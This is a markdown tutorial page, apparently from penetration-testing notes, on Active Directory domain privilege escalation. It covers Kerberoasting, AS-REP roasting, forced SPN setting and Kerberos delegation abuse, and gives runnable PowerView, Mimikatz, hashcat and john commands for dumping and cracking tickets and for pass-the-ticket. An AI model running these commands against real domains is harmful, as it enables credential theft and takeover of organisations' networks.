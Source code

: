 ```yaml
---
title: Domain Privilege Escalation
category: Active Directory
order: 4
---
```


Lets talk about some attacks to carry out a domain privilege escalation in order to obtain a Domain Controller.

# Attacking Kerberos

## Kerberoasting

The Kerberos session ticket as known as `TGS` has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.

> **Note**: Service accounts are many times ignored. Password are rarely changed and have privileged access.


### Getting the TGS

First of all we need to find which users are used as *Service Accounts*:

* PowerView:
```powershell
Get-NetUser -SPN
```
* ADModule:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

After enum it, we need to request a TGS:

* PowerView:
```powershell
Request-SPNTicket
```

* ADModule:
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/mgmt-user.corp.local"
```

> **Note**: With `klist` you can check if the TGS has been granted.

Finally all tickets should be exported.

```powershell
Inovoke-Mimikatz -Command '"kerberos::list /export"'
```

### Cracking the tickets

Once the tickets are exported it can be cracked with `john`, `hashcat` or `tgsrepcrack.py` tool:

```
python.exe .\tgsrepcrack.py wordlist.txt ticket.kirbi
```
To crack the ticket with hascat exists a script to export it to a hashcat format.

* https://github.com/jarilaos/kirbi2hashcat

```
haschat -a 0 -m 13100 wordlist.txt ticket.txt
```

## AS-REP Roasting

If a users account does not have the flag _"Do not require Kerberos pre-authentication"_ in _UserAccountControl_ settings which means kerberos preauth is disabled, it is possible to grab users AS-REP and brute-force it offline.

### Users with No-Preauth set

We need to enumerate accounts with Kerberos Preauth disabled:

* PowerView:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

* ADModule:
```powershell
Get-ADUser -Filter {DoesNotRequiredPreAuth -eq $True} -Properties DoesNotRequiredPreAuth
```

> **Note**: With `GenericAll` or `GenericWrite`, kerberos preauth can be disabled.
> 
> `Set-DomainObject -Identity user01 -XOR @{useraccountcontrol=4194304} -Verbose`

### Cracking the tickets

We can request an encrypted AS-REP for offline brute-force. To do that task we can use `ASREPRoast` module:

```powershell
Import-Module ASREPRoast.ps1
Get-ASREPHash -UserName user01 -Verbose
```
After getting the ticket we can crack it with `john` or `hashcat`:

```
john user01.ticket --wordlist=wordlist.txt
hashcat -a 0 -m 18200 user01.ticket wordlist.txt
```

## Set SPN

With enough privileges such as `GenericAll` or `GenericWrite`, a target user's SPN can be set to anything which is unique in the domain. We can then request a TGS without special privileges and the TGS can be kerberoasted.

We can enumerate the permissions for a group on ACLs:

* PowerView (dev):
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

We can also see if a user already has a SPN:

* PowerView (dev):
```powershell
Get-DomainUser -Identity user01 | select serviceprincipalname
```
* ADModule:
```powershell
Get-ADUser -Identity user01 -Properties ServicePrincipalName | select ServicePrincipalName
```

And we can force the SPN to a user:

* PowerView (dev):
```powershell
Set-DomainObject -Identity user01 -Set @{serviceprincipalname='ops/whatever01'}
```

* ADModule:
```powershell
Set-ADUser -Identity user01 -ServicePrincipalNames @{Add='ops/whatever01'}
```

Once we have a SPN set, we can request a TGS:

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object Sytem.IdentityModel.Token.KerberosRequestorSecurityToken -ArgumentList "ops/whatever01"
```
And we can export the tickets to the disk:

```powershell
Inovoke-Mimikatz -Command '"kerberos::list /export"'
```
And finally same as *Kerberoasting*, you can crack the ticket with `tgsrepcrack.py`.

# Kerberos Delegation

_Kerberos Delegation_ allows to **reuse the end-user credentials** to access resources hosted on a different server. This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.

For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources on the database server as the user and not as the web server's service account.

> **Note**: The service account for web service must be trusted for delegation to be able to make requests as a user. So the server can **Impersonate** the user.

There are two types of delegation:

## Unconstrained Delegation

When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user.

When unconstrained delegation is enabled, the domain controller places uset's TGT inside TGS. When that is presented to the server with unconstrained delegation, the TGT is extracted from TGS and sotred in LSASS. This way the server can reuse the user's TGT to access any other resource as the user.

> **Note**: Allows the first hop server to request access to **any service** on **any computer** in the domain.

We need to discover computers which have **unconstrained delegation** enabled.

* PowerView:
```powershell
Get-NetComputer -UnConstrained
```
* ADModule:
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
> **Note**: The **DC** always have the unconstrained delegation **enabled**.

To exploit the unconstrained delgation and extract the user's TGT from lsass, we need to compromise the server as local admin.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
If any interesting ticket is located on the server, we will need to wait until a interesting user connects to the compromised server. We can use `Invoke-UserHunter` to see if the targeted user connects to the server:

```powershell
Invoke-UserHunter -ComputerName srv01 -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

If we find a interesting ticket, it could be reused using _PassTheTicket_:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

## Constrained Delegation

When Contrained Delegation is enabled on a service account, allows access only to specified services on specified computers as a user.

A typical scenario where constrained delegation is userd is where a user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.

> **Note**: Allows the first hop server to request access only to **specified services** on **specified computers**. 

To impersonate the user, Service for user as known as `S4U` extension is used which provides two extensions:

* **Service for User to Self (S4U2self)**: Allows a service to obtain a forwardable TGS to itself on behalf a user.

* **Service for User to Proxy (S4U2proxy)**: Allows a service to obtain a TGS to a second service on behalf of a user.

